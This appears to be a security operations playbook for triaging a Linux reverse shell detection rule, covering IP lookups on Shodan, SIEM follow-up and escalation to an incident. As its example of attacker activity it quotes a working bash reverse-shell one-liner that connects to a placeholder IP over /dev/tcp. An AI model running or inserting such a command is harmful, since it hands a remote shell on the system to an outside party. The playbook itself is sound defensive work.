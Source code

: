 # How to process *Linux Reverse Shell Indicator* rule
This rule detects a bash connecting to a remote IP address (often found when actors do something like 'bash -i >& /dev/tcp/10.0.0.1/4242 0>&1')

# 1. Identify
- look the RAW Event for the matched command and destination IP
- check the destination IP: if it's public IP, search it on [Shodan](https://www.shodan.io/)

# 2. Contextualize
- go to SIEM and check what happened after command has been matched:
  - new connections from public IPs ? To public IPs ? Check found IPs with [Shodan](https://www.shodan.io/) 
  - downloading entries from internet ? check downloaded file hash with [VirusTotal](https://www.virustotal.com/gui/home/search)
- go to SIEM and check the parent process name (from PID): is it legitimous?


# 3. Decide
- by default this rule is dangerous. If no good indicators are found (private IP, no further action) &rarr; Incident

# Known False Negatives
None yet.

